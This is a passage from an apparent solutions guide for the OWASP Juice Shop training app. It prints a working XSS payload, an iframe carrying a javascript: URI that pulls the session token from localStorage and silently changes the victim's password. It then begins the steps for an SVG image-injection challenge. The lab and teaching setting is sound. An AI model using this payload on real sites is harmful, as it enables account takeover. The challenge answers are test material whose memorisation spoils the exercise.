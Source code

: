 Pretty-printed this attack is easier to understand:

```html
<iframe src="javascript:xmlhttp = new XMLHttpRequest();
   xmlhttp.open('GET', 'http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&amp;repeat=slurmCl4ssic');
   xmlhttp.setRequestHeader('Authorization',`Bearer=${localStorage.getItem('token')}`);
   xmlhttp.send();">
</iframe>
```

Anyone who is logged in to the Juice Shop while clicking on this link will get their password set to the same one we forced onto Bender!

👏 Kudos to Joe Butler, who originally described this advanced XSS payload in his blog post [Hacking(and automating!) the OWASP Juice Shop](https://incognitjoe.github.io/hacking-the-juice-shop.html).

### **Stick cute cross-domain kittens all over our delivery boxes**

1. Log in with any user and go to [http://localhost:3000/#/deluxe-membership](http://localhost:3000/#/deluxe-membership)
2. Right-click and *Inspect* the image of the delivery boxes with the Juice Shop logo on them.
3. You will notice that this image is in fact an inline `<svg>` tag that includes six `<image>` tags. One is loading `assets/public/images/deluxe/blankBoxes.png` and the other five load `assets/public/images/JuiceShop_Logo.png` in different sizes and positions onto the SVG graphic.
4. Open the `main.js` in your browser DevTools and search for the corresponding Angular controller code related to that page and SVG image
5. You will be able to spot six `:svg:image` references, one of them `blankBoxes.png` and the other five seemingly unspecified at that time.
    
    ![Inline SVG in Angular controller](media/blog4/delivery-boxes_inline_svg.png)
    
